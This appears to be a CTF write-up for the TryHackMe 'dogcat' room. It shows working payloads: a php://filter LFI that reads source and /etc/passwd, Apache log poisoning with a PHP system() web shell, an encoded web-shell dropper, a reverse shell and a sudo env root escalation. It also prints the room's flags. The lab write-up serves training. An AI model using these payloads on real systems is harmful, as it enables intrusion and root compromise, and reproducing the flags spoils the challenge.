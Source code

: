 # dogcat

1. Recon reveals 22 and 80.
2. Going to the site (after running a dirb) reveals a simple site where you can view dog or cat images, via a query string `?view=`. Obvious LFI challenge
3. `php://filter/dog/convert.base64-encode/resource=dog` gets the base64 encoding of the dog and cat pages, which select a random image. Unfortunately, there is a whitelist: if dog or cat are not in the view url, it rejects it with 'only dogs or cats allowed'.
4. After a lot of messing about, I found this works (I don't know why. PHP ¯\_(ツ)_/¯): `http://10.10.177.45/?view=php://filter/dog/convert.base64-encode/resource=index`. It returns an error and the base64 of index :D

    This revealed that index is:

    ```php
    <?php
        function containsStr($str, $substr) {
            return strpos($str, $substr) !== false;
        }
        $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
        if(isset($_GET['view'])) {
            if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                echo 'Here you go!';
                include $_GET['view'] . $ext;
            } else {
                echo 'Sorry, only dogs or cats are allowed.';
            }
        }
    ?>
    ```

    Of note, I can specify the extension. So for example this works and gets me the passwd file: `?view=php://filter/dog/convert.base64-encode/resource=../../../../etc/passwd&ext=`

    Next step, how to exploit this? The passwd file revealed no users but www-data. A look at this blog (https://resources.infosecinstitute.com/local-file-inclusion-code-execution/) provided a possible option: utilising the apache log.

5. I used netcat to inject a php shell into the access logs: 

    ```
    root@kali:~# nc 10.10.148.44 80
    GET /<?php system($_GET['cmd']); ?>
    HTTP/1.1 400 Bad Request
    Date: Sun, 03 May 2020 02:20:10 GMT
    Server: Apache/2.4.38 (Debian)
    Content-Length: 302
    Connection: close
    Content-Type: text/html; charset=iso-8859-1

    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>400 Bad Request</title>
    </head><body>
    <h1>Bad Request</h1>
    <p>Your browser sent a request that this server could not understand.<br />
    </p>
    <hr>
    <address>Apache/2.4.38 (Debian) Server at 172.17.0.2 Port 80</address>
    </body></html>
    ```

6. I tested this by running `http://10.10.148.44/?view=php://filter/dog/resource=/var/log/apache2/access.log&ext=&cmd=cat%20/etc/passwd` which printed the contents of passwd to the screen (buried in the logs). Nice.

7. By using the script below as the cmd query string value, I created a `shell.php` in the web directory:

    `echo %50%47%5a%76%63%6d%30%67%62%57%56%30%61%47%39%6b%50%53%4a%48%52%56%51%69%49%47%35%68%62%57%55%39%49%6a%77%2f%63%47%68%77%49%47%56%6a%61%47%38%67%59%6d%46%7a%5a%57%35%68%62%57%55%6f%4a%46%39%54%52%56%4a%57%52%56%4a%62%4a%31%42%49%55%46%39%54%52%55%78%47%4a%31%30%70%4f%79%41%2f%50%69%49%2b%43%6a%78%70%62%6e%42%31%64%43%42%30%65%58%42%6c%50%53%4a%55%52%56%68%55%49%69%42%75%59%57%31%6c%50%53%4a%6a%62%57%51%69%49%47%6c%6b%50%53%4a%6a%62%57%51%69%49%48%4e%70%65%6d%55%39%49%6a%67%77%49%6a%34%4b%50%47%6c%75%63%48%56%30%49%48%52%35%63%47%55%39%49%6c%4e%56%51%6b%31%4a%56%43%49%67%64%6d%46%73%64%57%55%39%49%6b%56%34%5a%57%4e%31%64%47%55%69%50%67%6f%38%4c%32%5a%76%63%6d%30%2b%43%6a%78%77%63%6d%55%2b%43%6a%77%2f%63%47%68%77%43%69%41%67%49%43%42%70%5a%69%68%70%63%33%4e%6c%64%43%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4b%51%6f%67%49%43%41%67%65%77%6f%67%49%43%41%67%49%43%41%67%49%48%4e%35%63%33%52%6c%62%53%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4f%77%6f%67%49%43%41%67%66%51%6f%2f%50%67%6f%38%4c%33%42%79%5a%54%34%4b%50%48%4e%6a%63%6d%6c%77%64%44%35%6b%62%32%4e%31%62%57%56%75%64%43%35%6e%5a%58%52%46%62%47%56%74%5a%57%35%30%51%6e%6c%4a%5a%43%67%69%59%32%31%6b%49%69%6b%75%5a%6d%39%6a%64%58%4d%6f%4b%54%73%38%4c%33%4e%6a%63%6d%6c%77%64%44%34%3d | base64 -d > shell.php`

8. This wasn't working right to get a reverse shell, but I was able to use it to create a reverse shell via encoding the reverse shell from here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

    `echo <base64 encoded> | base64 -d > reverse.php`

9. With a reverse shell on the machine, I was able to `cat flag.php` which was in the root of the web, giving me the first flag `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`

10. Sudo -l revealed:

```
Matching Defaults entries for www-data on 79ac254749ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 79ac254749ea:
    (root) NOPASSWD: /usr/bin/env
```

This allowed me to run `sudo /usr/bin/env /bin/sh` to get a root shell.

11. The third flag was in `/root/flag3.txt`: `THM{D1ff3r3nt_3nv1ronments_874112}`. Still need to find 2 and 4.

12. Browsing into /var/www I found flag2: `THM{LF1_t0_RC3_aec3fb}`. The flag file was `/var/www/flag2_QMW7JvaY2LvK.txt`